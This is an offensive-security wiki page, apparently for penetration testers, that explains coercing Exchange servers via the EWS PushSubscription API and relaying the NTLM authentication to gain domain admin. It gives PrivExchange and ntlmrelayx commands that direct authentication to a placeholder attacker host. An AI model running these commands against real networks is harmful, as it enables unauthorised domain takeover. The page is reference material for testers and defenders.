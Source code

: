 # PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](../../../ad/movement/mitm-and-coerced-authentications/broken-reference/) ([because of the Session Signing and MIC mitigations](../../../ad/movement/mitm-and-coerced-authentications/broken-reference/)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../../../ad/movement/mitm-and-coerced-authentications/broken-reference/) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../../../ad/movement/mitm-and-coerced-authentications/broken-reference/) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

## Resources

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}
